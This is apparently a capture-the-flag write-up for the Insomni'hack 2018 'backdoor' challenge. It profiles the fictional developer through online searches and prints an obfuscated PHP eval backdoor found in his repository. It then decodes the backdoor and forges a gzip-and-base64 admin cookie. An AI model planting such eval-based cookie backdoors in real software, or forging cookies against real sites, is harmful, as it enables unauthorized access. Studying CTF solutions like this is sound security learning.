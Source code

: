 # Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://tipi-hack.github.io/2018/03/25/insomni'hack-18-backdoor.html

# Title

[//]: <> (题目)

Hello shady hacker, I represent a web development company trying to grow in Geneva, but unfortunately we’re running into a lot of competition. One company in particular is stealing all our clients and we’d like you to hack them to obliterate their reputation and show that they are terrible developers. Here is one of their websites. Can you break in and prove that they suck?

# Content

[//]: <> (WriteUp内容)

When connecting to the webapp http://bd.insomniack.ch, we can found in the HTML code the name of the developer:
* James Karsmith

After some Googling, we finally found a Linkedin account from a web developer working in Geneve with the same name: 

![](Resource/linkedin.png)

When looking on a GitHub, we can find only one user with the company name:

https://github.com/WackyWebWizards

In the repository, we can see the developer created a backdoor in order to login as shown in the code below:

```php
<?php
if(isset($_COOKIE['wwwadmin'])) {
        $code="y0zTSK/KzEvLSSxJ1UhKLE41M4lPSU3OT0nVUIl39vf39nSNVi8vL09Myc3MU4/V1FSwtbVVUCo2Ti4yLolPSkzOTjEwKIovyY9PzMmJL0hMTy1WVNJUqObiVIkPdg0O9vT3i1bPTFGPVbBVMLRGEYUaCZGoBQA=";
        eval(gzinflate(base64_decode($code)));
}
?>
```

In order to retrieve the value of $code variable, we just modified ```eval``` function with ```echo``` and we obtained the following code:

```php
if(gzinflate(base64_decode($_COOKIE['wwwadmin'])) === "s3cr3t_backd00r_to_all_pages!") {
	$_SESSION['id'] = 1;
	$_SESSION['admin'] = 1;
}
```

So to sump up, in order to obtain admin access, we need to have a cookie name wwwadmin with the value “s3cr3t_backd00r_to_all_pages!” compressed with Gzip and encoded in base64. It’s just one line of PHP:

```php
echo base64_encode(gzdeflate("s3cr3t_backd00r_to_all_pages!"));
```

At the end we obtain the flag!!!

![](Resource/burpsuite.png)